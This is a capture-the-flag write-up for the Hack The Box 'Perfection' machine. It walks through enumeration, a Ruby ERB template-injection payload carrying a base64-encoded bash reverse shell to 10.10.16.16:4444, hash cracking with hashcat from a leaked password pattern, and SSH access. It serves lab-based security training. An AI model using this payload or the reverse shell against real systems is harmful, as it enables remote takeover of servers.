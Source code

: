 # Perfection

## Introduction

This writeup details the exploitation process of the "Perfection" box on Hack The Box. The challenge is categorized as easy difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
nmap -A -Pn 10.10.11.253 
```

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the website and I check all the function and I find [http://10.10.11.253/weighted-grade](http://10.10.11.253/weighted-grade)

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Curl (HEADER)

```bash
curl -I 10.10.11.253
```

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And intercept with burp suite to see it have potential RCE. And I found vulnerability that need to use URL-encoding. [https://www.exploit-db.com/exploits/5215](https://www.exploit-db.com/exploits/5215)

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

```bash
#PAYLOAD
a%0A;<%25%3d+system("echo+IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo=+|+base64+-d+|+bash")+%25>
```

* %0A = blank
* %25 = %
* %3d = =
* use <%= system(' ') %> for SSTI (Server Side Template Injection) of RUBY ([https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby))
* IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo= : #!/bin/bash bash -c "bash -i >& /dev/tcp/10.10.16.16/4444 0>&1" ([https://www.revshells.com/](https://www.revshells.com/))

<pre class="language-bash"><code class="lang-bash"><strong>#Plaintext PAYLOAD
</strong><strong>a
</strong><strong>;&#x3C;%= system("echo IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo= | base64 -d | bash") %>
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption><p>BINGO!</p></figcaption></figure>

### User Flag

<figure><img src="../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption><p>99dea3053881db4616c908de8b15467d</p></figcaption></figure>

## Privilege Escalation

### Found the Database

```bash
strings /home/susan/Migration/pupilpath_credentials.db
```

<figure><img src="../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption><p>Susan Miller: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f</p></figcaption></figure>

### Found the password format

```bash
cd /var/mail
cat susan
```

<figure><img src="../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption><p>{firstname}<em>{firstname backwards}</em>{randomly generated integer between 1 and 1,000,000,000}</p></figcaption></figure>

### Crack password:

```bash
hashcat -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d
PASSWORD: susan_nasus_413759210
```

* \-m 1400 (SHA-256 hashes)
* \-a 3 (brute force)
* susan\_nasus\_?d?d?d?d?d?d?d?d?d : {firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

### Connect with SSH

```bash
ssh susan@10.10.11.253 
```

<figure><img src="../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Root Flag

<figure><img src="../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption><p>ae84cdfdc078c0790f713ee089011b7c</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
